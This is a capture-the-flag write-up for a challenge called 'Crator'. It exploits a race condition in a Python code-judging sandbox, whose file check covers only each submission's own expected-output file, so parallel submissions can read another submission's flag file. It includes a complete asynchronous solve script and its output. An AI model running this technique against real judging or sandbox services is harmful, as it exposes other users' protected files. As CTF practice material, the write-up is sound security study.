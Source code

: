 ```yaml
---
created: 2024-08-17T21:27
updated: 2024-08-17T23:15
---
```


Yet-Another-Python-Sandbox-Or-Is-It?
## problem

- Sandboxed python again?
- We are allowed to read files, just not the `/tmp/[id].expected` file which contains the flag.

But each submission is only forbidden from accessing their own `.expected` file, what if we read it from a previous submission?

## solution

Submit a dummy lagging code, it will pass the first test case and hang on the second one. We will predict its id and store it as `I`.

There will be a ~1s window where `/tmp/{I}.expected` will contain the flag.

```python [lag_machine.py]
i = input()
if "Welcome to Crator" not in i:
    for i in range(10**9):
        print(i)
else:
    print(i)
```

While the request is happening, send multiple new submissions each trying to read the file `/tmp/{I}.expected`, and print the results.

The sandboxed `open` only checks for 1 id, so they will be able to read the file without issue.

```python
w = True # print 1 instance of 'Welcome...' for sanity purpose
for i in range(10**9):
    try:
        with open("/tmp/{target}.expected") as f:
            r = f.read()
            if 'Welcome' not in r or w:
                print(r,flush=True)
                w=False
    except Exception as e: # handle file not exist issues
        pass
```

Yes, there is no sandbox breakout, just some race condition.
## solve script

```python [solve.py]
import re
import time
import aiohttp
import asyncio


sid = 0
t = 'https://crator-2de64099b8890ab7.instancer.idek.team'

lagging_code = '''
i = input()
if "Welcome to Crator" not in i:
    for i in range(10**9):
        print(i)
else:
    print(i)
'''


async def init(s):
    global sid
    await s.post(f"{t}/register", data={'username': 'kumo', 'password': 'kumo'})
    await s.post(f"{t}/login", data={'username': 'kumo', 'password': 'kumo'})
    r = await s.post(f"{t}/submit/helloinput", data={'code': 'print("hello")'}, allow_redirects=True)
    sid = int(str(r.url).split('/')[-1])
    sid += 1


async def thief(s, target, delay=0):
    time.sleep(delay)
    r = await s.post(f"{t}/submit/helloinput", data={'code': f'''
w = True
for i in range(10**9):
    try:
        with open("/tmp/{target}.expected") as f:
            r = f.read()
            if 'Welcome' not in r or w:
                print(r,flush=True)
                w=False
    except Exception as e:
        pass'''})
    text = await r.text()
    if 'idek{' in text:
        print(re.search(r'idek{(.*)}', text).group(0))


async def attack_chain(s):
    global sid
    jobs = []
    jobs.append(s.post(f"{t}/submit/helloinput", data={'code': lagging_code}))
    for i in range(5):
        jobs.append(thief(s, sid, i/10))
    await asyncio.gather(*jobs)
    print("chain executed", sid, '..', sid+5, t)
    sid += 6


async def main():
    global sid
    async with aiohttp.ClientSession() as s:
        await init(s)
        await attack_chain(s)

asyncio.run(main())
```

```sh
$ python solve.py
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
chain executed 2 .. 7 https://crator-2de64099b8890ab7.instancer.idek.team
```

```flag
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
```
